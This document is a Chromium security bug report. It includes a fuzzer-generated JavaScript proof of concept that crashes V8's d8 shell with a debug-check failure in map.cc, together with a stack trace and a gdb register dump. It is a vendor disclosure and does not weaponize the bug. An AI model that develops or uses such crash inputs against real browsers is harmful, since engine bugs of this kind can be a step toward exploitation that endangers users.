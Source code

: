 <b>This template is ONLY for reporting security bugs. If you are reporting a</b>
<b>Download Protection Bypass bug, please use the "Security - Download</b>
<b>Protection" template. For all other reports, please use a different</b>
<b>template.</b>

<b>Please READ THIS FAQ before filing a bug: https://chromium.googlesource.com</b>
<b>/chromium/src/+/master/docs/security/faq.md</b>

<b>Please see the following link for instructions on filing security bugs:</b>
<b>https://www.chromium.org/Home/chromium-security/reporting-security-bugs</b>

<b>Reports may be eligible for reward payments under the Chrome VRP:</b>
<b>http://g.co/ChromeBugRewards</b>

<b>NOTE: Security bugs are normally made public once a fix has been widely</b>
<b>deployed.</b>

<b>-------------------------</b>

<b>VULNERABILITY DETAILS</b>
<b>Please provide a brief explanation of the security issue.</b>
v8 dcheck failure and fatal error

<b>VERSION</b>
Chrome Version: 75.0.3770.80 stable
Operating System: ubuntu 16.04

<b>REPRODUCTION CASE</b>
<b>Please include a demonstration of the security bug, such as an attached</b>
<b>HTML or binary file that reproduces the bug when loaded in Chrome. PLEASE</b>
<b>make the file as small as possible and remove any content not required to</b>
<b>demonstrate the bug, or any personal or confidential information.</b>

<b>Please attach files directly, not in zip or other archive formats, and if</b>
<b>you've created a demonstration site please also attach the files needed to</b>
<b>reproduce the demonstration locally.</b>

run d8(verison 7.5.288.22) with this poc : gdb --args ./d8 ./poc.js

d8 will crash with dcheck failure


poc.js

function main() {
const v1 = [13.37,13.37,13.37,13.37,13.37];
const v2 = {forEach:v1};
function v3(v4,v5) {
    const v10 = [13.37];
    const v12 = [1337,1337,1337];
    const v13 = [1337,2147483648,v10,v10];
    const v14 = {constructor:v12,asinh:v10,getUint8:parseInt,sinh:v13,MIN_VALUE:v12};
    let v15 = 2147483648;
    const v19 = [1337,1337,1337];
    const v20 = ["boolean",Atomics,v19];
    let v21 = v20;
    let v23 = 2006948048;
    v20.valueOf = v23;
    const v25 = Object.seal(v21);
    function v26(v27,v28,v29,v30,v31) {
    }
    v25.valueOf = v26;
    let v33 = 0;
    let v35 = 0;
    const v36 = v35 + 1;
    v35 = v36;
    const v37 = v33 + 1;
    const v39 = [1337,1337,1337,1337];
    const v42 = [13.37];
    const v43 = [v42,Symbol,v42,13.37];
    function v44(v45,v46,v47) {
        return v43;
    }
    let v49 = 0;
    while (v49 < 6) {
        const v50 = v49 + 1;
        v49 = v50;
        let v53 = 0;
        while (v53 < 8) {
            const v55 = Symbol.replace;
            v2[v55] = 8;
            const v56 = v53 + 1;
            v53 = v56;
        }
        for (let v60 = 0; v60 < 3; v60++) {
            v50.valueOf = v44;
        }
    }
}
const v61 = v3();
const v62 = v3();
}
main();



<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
<b>Type of crash: [tab, browser, etc.]</b>
<b>Crash State: [see link above: stack trace *with symbols*, registers,</b>
<b>exception record]</b>
<b>Client ID (if relevant): [see link above]</b>

#
# Fatal error in ../../src/objects/map.cc, line 1020
# Debug check failed: to_kind == DICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).
#
#
#
#FailureMessage Object: 0x7fffffffbdd0
==== C stack trace ===============================

    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x49ee92) [0x5555559f2e92]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x49c807) [0x5555559f0807]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x492bae) [0x5555559e6bae]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x492745) [0x5555559e6745]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0xd42399) [0x555556296399]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0xd419d4) [0x5555562959d4]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x18db643) [0x555556e2f643]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x18dad9c) [0x555556e2ed9c]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x18d0c3a) [0x555556e24c3a]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1786c11) [0x555556cdac11]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1786518) [0x555556cda518]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1785be0) [0x555556cd9be0]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1773a57) [0x555556cc7a57]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1767368) [0x555556cbb368]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1763e11) [0x555556cb7e11]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1763723) [0x555556cb7723]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x651448) [0x555555ba5448]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x65a859) [0x555555bae859]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x65bc46) [0x555555bafc46]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x102ac40) [0x55555657ec40]
    /home/test/Documents/fuzz/v8_for_test/fuzzbuild_test/d8(+0x1d247a0) [0x5555572787a0]

Thread 1 "d8" received signal SIGILL, Illegal instruction.

[----------------------------------registers-----------------------------------]
RAX: 0x88f 
RBX: 0x5555559f07e0 (<_ZN2v88platform12_GLOBAL__N_115PrintStackTraceEv>:	)
RCX: 0x4407 
RDX: 0x80 
RSI: 0x7ffff7ecb010 --> 0x89792 
RDI: 0x5555575492a4 --> 0x448100000000 
RBP: 0x7fffffffbdc0 --> 0x7fffffffc0d0 --> 0x7fffffffc0e0 --> 0x7fffffffc1d0 --> 0x7fffffffc220 --> 0x7fffffffc280 (--> ...)
RSP: 0x7fffffffbdc0 --> 0x7fffffffc0d0 --> 0x7fffffffc0e0 --> 0x7fffffffc1d0 --> 0x7fffffffc220 --> 0x7fffffffc280 (--> ...)
RIP: 0x5555559ed776 (<_ZN2v84base2OS5AbortEv+54>:	ud2)
R8 : 0x7ffff728b770 --> 0x0 
R9 : 0x7ffff7fcc740 (0x00007ffff7fcc740)
R10: 0x0 
R11: 0x0 
R12: 0x55555569a23d ("Debug check failed: %s.")
R13: 0x7fffffffc090 --> 0x3000000020 (' ')
R14: 0x3fc 
R15: 0x55555567eee4 ("../../src/objects/map.cc")
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)


[-------------------------------------code-------------------------------------]
   0x5555559ed765 <_ZN2v84base2OS5AbortEv+37>:	
    call   0x5555574d3300 <abort@plt>
   0x5555559ed76a <_ZN2v84base2OS5AbortEv+42>:	
    lea    rdi,[rip+0x1b5bb33]        # 0x5555575492a4
   0x5555559ed771 <_ZN2v84base2OS5AbortEv+49>:	
    call   0x555555943f20 <__sanitizer_cov_trace_pc_guard>
=> 0x5555559ed776 <_ZN2v84base2OS5AbortEv+54>:	ud2    
   0x5555559ed778:	int3   
   0x5555559ed779:	int3   
   0x5555559ed77a:	int3   
   0x5555559ed77b:	int3
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffbdc0 --> 0x7fffffffc0d0 --> 0x7fffffffc0e0 --> 0x7fffffffc1d0 --> 0x7fffffffc220 --> 0x7fffffffc280 (--> ...)
0008| 0x7fffffffbdc8 --> 0x5555559e6bc2 (int3)
0016| 0x7fffffffbdd0 --> 0xdecade10 
0024| 0x7fffffffbdd8 ("Debug check failed: to_kind == DICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).")
0032| 0x7fffffffbde0 ("eck failed: to_kind == DICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).")
0040| 0x7fffffffbde8 ("ed: to_kind == DICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).")
0048| 0x7fffffffbdf0 ("ind == DICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).")
0056| 0x7fffffffbdf8 ("ICTIONARY_ELEMENTS || to_kind == SLOW_STRING_WRAPPER_ELEMENTS || IsFixedTypedArrayElementsKind(to_kind).")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGILL
0x00005555559ed776 in v8::base::OS::Abort() ()
    at ../../src/base/platform/platform-posix.cc:400
400	../../src/base/platform/platform-posix.cc: No such file or directory.

<b>CREDIT INFORMATION</b>
<b>Externally reported security bugs may appear in Chrome release notes. If</b>
<b>this bug is included, how would you like to be credited?</b>
<b>Reporter credit: [goes here]</b>
